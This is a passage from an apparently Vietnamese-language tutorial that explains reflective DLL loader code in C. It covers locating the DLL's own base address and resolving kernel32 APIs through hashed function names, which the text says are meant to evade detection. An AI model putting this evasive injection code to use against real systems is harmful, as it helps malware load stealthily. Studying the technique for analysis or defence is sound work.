   - Định nghĩa 1 số tên hàm bằng mã hash và 1 số struct một cách thủ công: [ReflectiveLoader.h](../ReflectiveDll/ReflectiveLoader.h). Định nghĩa 1 số struct để tránh trường hợp sử dụng một số struct bị lỗi vì không tìm thấy trong thư viện được import, đồng thời định nghĩa 1 số mã hash để tránh bị phát hiện và gây khó khăn trong quá trình phân tích.
  - Bước 0: Lấy base address của chính dll này:

    ```C
    uiLibraryAddress = caller();

    while (TRUE)
    {
        if (((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_magic == IMAGE_DOS_SIGNATURE)
        {
            uiHeaderValue = ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;
            if (uiHeaderValue >= sizeof(IMAGE_DOS_HEADER) && uiHeaderValue < 1024)
            {
                uiHeaderValue += uiLibraryAddress;
                if (((PIMAGE_NT_HEADERS)uiHeaderValue)->Signature == IMAGE_NT_SIGNATURE)
                    break;
            }
        }
        uiLibraryAddress--;
    }
    ```

    - Hàm `caller()` được khai báo:

      ```C
      __declspec(noinline) ULONG_PTR caller(VOID) { return (ULONG_PTR)_ReturnAddress(); }
      ```

      Hàm này trả về địa chỉ của chỗ nó được call. Sau đó sử dụng vòng lặp để tìm ngược lại base address trong tiến trình cho tới khi thấy DOS Header ('MZ') thì dừng lại.

  - Bước 1: Từ danh sách các dll được nạp vào tiến trình

    - Tìm `kernel32.dll`, từ dll này, resolve các hàm API `LoadLibraryA()`, `GetProcAddress()`, `VirtualAlloc()` để chuẩn bị cho bước nạp dll vào tiến trình.

      ```C
      if ((DWORD)uiValueC == KERNEL32DLL_HASH)
      {
          uiBaseAddress = (ULONG_PTR)((PLDR_DATA_TABLE_ENTRY)uiValueA)->DllBase;
          uiExportDir = uiBaseAddress + ((PIMAGE_DOS_HEADER)uiBaseAddress)->e_lfanew;
          uiNameArray = (ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiExportDir)->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];
          uiExportDir = (uiBaseAddress + ((PIMAGE_DATA_DIRECTORY)uiNameArray)->VirtualAddress);
          uiNameArray = (uiBaseAddress + ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->AddressOfNames);
          uiNameOrdinals = (uiBaseAddress + ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->AddressOfNameOrdinals);
          usCounter = 3;
          while (usCounter > 0)
          {
              dwHashValue = hash((char*)(uiBaseAddress + DEREF_32(uiNameArray)));
              if (dwHashValue == LOADLIBRARYA_HASH || dwHashValue == GETPROCADDRESS_HASH || dwHashValue == VIRTUALALLOC_HASH)
              {
                  uiAddressArray = (uiBaseAddress + ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->AddressOfFunctions);
                  uiAddressArray += (DEREF_16(uiNameOrdinals) * sizeof(DWORD));
                  if (dwHashValue == LOADLIBRARYA_HASH)
                      pLoadLibraryA = (LOADLIBRARYA)(uiBaseAddress + DEREF_32(uiAddressArray));
                  else if (dwHashValue == GETPROCADDRESS_HASH)
                      pGetProcAddress = (GETPROCADDRESS)(uiBaseAddress + DEREF_32(uiAddressArray));
                  else if (dwHashValue == VIRTUALALLOC_HASH)
                      pVirtualAlloc = (VIRTUALALLOC)(uiBaseAddress + DEREF_32(uiAddressArray));
                  usCounter--;
              }
              uiNameArray += sizeof(DWORD);